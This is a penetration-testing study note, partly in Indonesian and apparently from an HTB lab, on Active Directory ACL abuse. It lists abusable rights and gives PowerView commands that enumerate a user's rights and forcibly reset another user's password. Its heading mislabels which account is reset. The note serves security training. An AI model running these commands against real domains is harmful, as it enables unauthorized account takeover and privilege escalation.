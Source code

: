 ```yaml
---
layout: default
---
```

# ACL - Enumeration &  Abuse

## Why are ACEs Important?

💡 Attackers utilize ACE entries to either further access or establish persistence. 
These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the  impact that these can have if applied incorrectly. 
They cannot be  detected by vulnerability scanning tools, and often go unchecked for  many years, especially in large and complex environments. During an assessment where the client 
has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 
Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:



```python
	
- ForceChangePassword:  abused with Set-DomainUserPassword
- Add Members:  abused with Add-DomainGroupMember
- GenericAll:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- GenericWrite:  abused with Set-DomainObject
- WriteOwner:  abused with Set-DomainObjectOwner
- WriteDACL:  abused with Add-DomainObjectACL
- AllExtendedRights:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- Addself:  abused with Add-DomainGroupMember
```

### ACL Enumeration With Powerview
In this section we use scenarion that:
1. we have compromise user with username wley
2. User wley has Force Change Password Object to User damundsen
3. Login as damundsen, Enumerate this user has Generic Write rights to Help Desk Level 1 Groups
4. Adding ourself (damundsen) as member of HELP DESK IT LEVEL 1
   
### Enumerate ForceChangePassword Right

```python
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##output Yang Diharapkan
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
```

*Enumerate All Users* 
```python
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

```

## Abusing Force Change Password
**changing wley password without knowing his old password**

First, Store Password user kita ke powershell credential
   
```python
   PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
   PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

Then, Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
```python
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
 

